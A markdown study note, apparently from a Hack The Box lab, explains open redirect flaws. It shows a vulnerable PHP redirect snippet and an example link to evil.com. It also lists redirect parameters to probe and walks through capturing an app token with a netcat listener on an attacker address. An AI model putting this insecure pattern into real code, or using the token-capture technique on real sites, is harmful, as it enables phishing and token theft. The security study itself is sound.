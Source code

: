 ```yaml
---
title: k-Open Redirect
draft: false
tags:
---
```

An Open Redirect vulnerability occurs when an attacker can redirect a victim to an attacker-controlled site by abusing a legitimate application's redirection functionality. In such cases, all the attacker has to do is specify a website under their control in a redirection URL of a legitimate website and pass this URL to the victim. As you can imagine, this is possible when the legitimate application's redirection functionality does not perform any kind of validation regarding the websites to which the redirection points. From an attacker's perspective, an open redirect vulnerability can prove extremely useful during the initial access phase since it can lead victims to attacker-controlled web pages through a page that they trust.

```php
$red = $_GET['url'];
header("Location: " . $red);
```


```php
$red = $_GET['url'];
```

In the line of code above, a variable called _red_ is defined that gets its value from a parameter called _url_. _$_GET_ is a PHP superglobal variable that enables us to access the _url_ parameter value.

The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows: `trusted.site/index.php?url=https://evil.com`

Make sure you check for the following URL parameters when bug hunting, you'll often see them in login pages. Example: `/login.php?redirect=dashboard`

- ?url=
- ?link=
- ?redirect=
- ?redirecturl=
- ?redirect_uri=
- ?return=
- ?return_to=
- ?returnurl=
- ?go=
- ?goto=
- ?exit=
- ?exitpage=
- ?fromurl=
- ?fromuri=
- ?redirect_to=
- ?next=
- ?newurl=
- ?redir=


## Example

Navigate to `oredirect.htb.net`. You will come across a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

### Exploit
  
First, let us set up a Netcat listener.

```shell-session
jadu101@htb[/htb]$ nc -lvnp 1337
```

Edit the URL as follows:

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

